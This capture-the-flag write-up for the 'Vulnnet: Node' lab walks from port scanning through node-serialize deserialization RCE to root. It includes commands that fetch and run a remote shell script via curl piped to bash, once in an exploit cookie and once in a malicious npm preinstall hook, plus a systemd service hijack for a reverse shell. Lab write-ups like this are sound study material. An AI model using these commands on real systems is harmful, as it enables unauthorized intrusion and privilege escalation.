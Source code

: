 # Vulnnet: Node

## Nmap scanning 
	
cmd: ```sudo nmap -oN nmap/simple 10.10.9.165```

- 8080/tcp open  http-proxy
	
cmd: ```sudo nmap -sC -sV -p 8080 10-10-9-165```

- 8080/tcp open  http    Node.js Express framework

cmd: ```sudo nmap -p- -oN nmap/all_ports 10.10.9.165```
	
- No findings	

## Interesting findings

### Potential users
	
- Tilo Mitra
- Eric Ferraiuolo
- Reid Burke
- Andrew Wooldridge
		
### Intersting posts (looks like a news page)
	
1. Vulnnet data breach -> might find passwords somewhere
2. Critical flaws in D-Link VPN routers -> nmap identified this might be a proxy, thus we might abuse this
3. Some photos -> OSINT and STEGA
4. Node.js vulnerabilities still present -> always good for us

### Pages (with gobuster)
	
	cmd: ```gobuster dir -u http://10.10.9.165 -w /usr/share/seclists/Discovery/Web-Content/big.txt -o fuzz/big.log -t 80```
	
```bash
/Login                (Status: 200) [Size: 2127]
/css                  (Status: 301) [Size: 173] [--> /css/]
/img                  (Status: 301) [Size: 173] [--> /img/]
/login                (Status: 200) [Size: 2127]
```

### Analyzing photos
	
- Exiftool -> no findings
- Stegseek -> no findings
- Visual inspection -> some elements in some stickers, but nothing major for now


### Analyzing HTTP requests/responses
	
- X-Powered-By: Express
- Button "Let me in..." -> GET /login (does nothing)
- Button "Let me back..." -> GET / (onclick="document.location.href='/'")

## Exploitation
	
cmd: ```searchsploit node.js```
	
```bash
Node.JS - 'node-serialize' Remote Code Execution (2)  | nodejs/webapps/49552.py
```

- Modify the script
	- Cookie Key: session
	- Cookie Value: deserialization exploitation payload
	
- Payload: ```curl http://10.9.128.84/shell.sh | bash```
	- Note: bash one liner reverse shell was causing problems with the quotation 

## Enumeration
	
cmd: ```whoami && id```

```bash
www
uid=1001(www) gid=1001(www) groups=1001(www)
```

cmd: ```sudo -l```

```bash
(serv-manage) NOPASSWD: /usr/bin/npm
```

## Exploitation (user)
	
- check gtfobins
- cmd: ```echo '{"scripts": {"preinstall": "curl http://10.9.128.84/shell.sh | bash"}}' > package.json```
- cmd: ```sudo -u serv-manage npm -C . --unsafe-perm i```


## Enumeration 
	
cmd: ```whoami && id```
	
```bash
serv-manage
uid=1000(serv-manage) gid=1000(serv-manage) groups=1000(serv-manage)
```

cmd: ```sudo -l```

```bash
User serv-manage may run the following commands on vulnnet-node:
(root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
(root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
(root) NOPASSWD: /bin/systemctl daemon-reload
```


## Exploitation
	
- finding the timer

cmd: ```find / -name "vulnnet-auto.timer"  2>/dev/null```

```bash
/etc/systemd/system/vulnnet-auto.timer
```

- Auto-timer important stuff
	- Change the 30 to 1 to execute more often
	- Unit= vulnnet-job.service

- Finding the service 

cmd: ```find / -name "vulnnet-auto.timer"  2>/dev/null```
	
```bash
/etc/systemd/system/vulnnet-job.service
```

- modifying the service
	
```bash
ExecStart=/bin/df -> ExecStart=/dev/shm/give_me_root # simple bash reverse shell with 777 permissions (make sure everyone can execute it)
```
	
cmd: ```whoami && id```
	
```bash
root
uid=0(root) gid=0(root) groups=0(root)
``` 

	

